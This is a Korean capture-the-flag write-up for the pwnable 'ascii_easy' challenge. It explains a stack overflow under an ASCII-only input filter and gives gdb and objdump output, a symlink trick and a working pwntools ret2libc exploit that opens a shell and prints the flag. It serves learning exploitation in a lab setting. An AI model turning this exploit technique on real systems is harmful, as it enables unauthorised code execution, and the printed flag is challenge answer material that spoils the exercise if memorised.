

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

ascii_easy.c를 살펴보면 libc-2.15.so파일을 0x5555e000에 로드한다.

```cpp
... 생략 ...
#define BASE ((void*)0x5555e000)
... 생략 ...
int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    if( fstat(fd,&st) < 0){
        printf("open error. tell admin!\n");
        return;
    }

    len_file = st.st_size;
    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        printf("mmap error!. tell admin\n");
        return;
    }
... 생략 ...
```

그리고, 인자 값이 0x20이상이고 0x7f이하인지 확인한다.

```cpp
int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}
```
is_ascii가 통과가 되면 입력 값 길이 검증이 없어 BoF가 일어나는 취약한 함수에 진입하게 된다.

```cpp
void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}
... 생략 ...
vuln(argv[1]);
```

buf의 시작 주소를 알아보면 ebp - 0x1C임을 알 수 있고, 이는 ret 까지 0x1C + 0x04만큼 더미를 채워야 한다는 것을 알 수 있다.

```sh
ascii_easy@pwnable:~$ gdb -q ./ascii_easy
Reading symbols from ./ascii_easy...(no debugging symbols found)...done.
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x08048518 <+0>:     push   %ebp
   0x08048519 <+1>:     mov    %esp,%ebp
   0x0804851b <+3>:     sub    $0x28,%esp
   0x0804851e <+6>:     sub    $0x8,%esp
   0x08048521 <+9>:     pushl  0x8(%ebp)
   0x08048524 <+12>:    lea    -0x1c(%ebp),%eax
   0x08048527 <+15>:    push   %eax
   0x08048528 <+16>:    call   0x8048380 <strcpy@plt>
... 생략 ...
```

/bin/sh문자열의 주소를 찾으면  libc-2.15.so에 존재하고, offset이 0x15d7ec임을 알 수 있다. base주소인 0x5555e000과 더하면 0x556bb7ec인데 0xec가 is_ascii함수에 필터링 될 것임으로 사용할 수 없다.

```sh
ascii_easy@pwnable:~$ strings -t x ascii_easy | grep /bin/sh
ascii_easy@pwnable:~$ strings -t x libc-2.15.so | grep /bin/sh
 15d7ec /bin/sh
```

os command를 사용할 수 있는 execve함수를 찾으면 offset 0xb876a에도 존재하며, base주소를 더하면 0x5561676a인데 이는 is_ascii함수를 통과할 수 있다.

```sh
ascii_easy@pwnable:~$ objdump -d libc-2.15.so | grep execve
... 생략 ...
   b876a:       e8 71 fe ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8802:       e8 d9 fd ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b88c9:       e8 12 fd ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8967:       e8 74 fc ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8a32:       e8 a9 fb ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8c1b:       e8 c0 f9 ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8cda:       e8 01 f9 ff ff          call   b85e0 <execve@@GLIBC_2.0>
... 생략 ...
```

execve에 넣은 NULL 주소를 찾자. ascii에 해당하는 값을 찾아야 하므로 0x55566366을 사용하겠다.

```sh
ascii_easy@pwnable:~$ gdb -q ascii_easy
Reading symbols from ascii_easy...(no debugging symbols found)...done.
(gdb) disas main
... 생략 ...
(gdb) b *main+200
Breakpoint 1 at 0x80485fb
(gdb) r abc
Starting program: /home/ascii_easy/ascii_easy abc

Breakpoint 1, 0x080485fb in main ()
(gdb) find 0x55562000, +100000, 0x00
... 생략 ...
0x55566366
... 생략
(gdb) x/x 0x55566366
0x55566366:     0x00000000
```

/bin/sh를 실행할 수 없으니 /bin/sh을 symbolic link를 이용하여 호출해볼 수 있겠다. 그러기 위한 문자열을 찾고 그 중 is_ascii에 걸리는 지 확인해야한다.

여기서는 operation라는 문자열을 사용하겠다.

```sh
ascii_easy@pwnable:~$ strings -t x libc-2.15.so
... 생략 ...
 159d15 Invalid floating-point operation
... 생략 ...
```

```sh
ascii_easy@pwnable:~$ gdb -q ascii_easy
Reading symbols from ascii_easy...(no debugging symbols found)...done.
(gdb) b *main+200
Breakpoint 1 at 0x80485fb
(gdb) r abc
Starting program: /home/ascii_easy/ascii_easy abc

Breakpoint 1, 0x080485fb in main ()
(gdb) x/s 0x556b7d2c
0x556b7d2c:     "operation"
```

심볼릭 링크를 만들고 심볼릭 링크를 만든 위치에 대한 환경변수를 설정하자.

```sh
ascii_easy@pwnable:~$ mkdir /tmp/2honrr_ascii
ascii_easy@pwnable:~$ cd /tmp/2honrr_ascii
ascii_easy@pwnable:/tmp/2honrr_ascii$ ln -s /bin/bash operation
ascii_easy@pwnable:/tmp/2honrr_ascii$ ./operation
ascii_easy@pwnable:/tmp/2honrr_ascii$ exit
exit
ascii_easy@pwnable:/tmp/2honrr_ascii$ export PATH=$PATH:/tmp/2honrr_ascii
```

exploit 코드를 작성하자.

```sh
ascii_easy@pwnable:/tmp/2honrr_ascii$ vi exploit.py
```

```python
from pwn import *

base = 0x5555e000
execve = base + 0xb876a
name = base + 0x159d15 + len('Invalid floating-point ')
null = 0x55566366

payload = 'A' * (0x1C + 0x04)
payload += p32(execve)
payload += p32(name)
payload += p32(null)
payload += p32(null)

p = process(['/home/ascii_easy/ascii_easy', payload])
p.interactive()
ascii_easy@pwnable:/tmp/2honrr_ascii$ python exploit.py
[+] Starting local process '/home/ascii_easy/ascii_easy': pid 446145
[*] Switching to interactive mode
triggering bug...
$ cat /home/ascii_easy/flag
damn you ascii armor... what a pain in the ass!! :(
$
```


# **FLAG**

**damn you ascii armor... what a pain in the ass!! :(**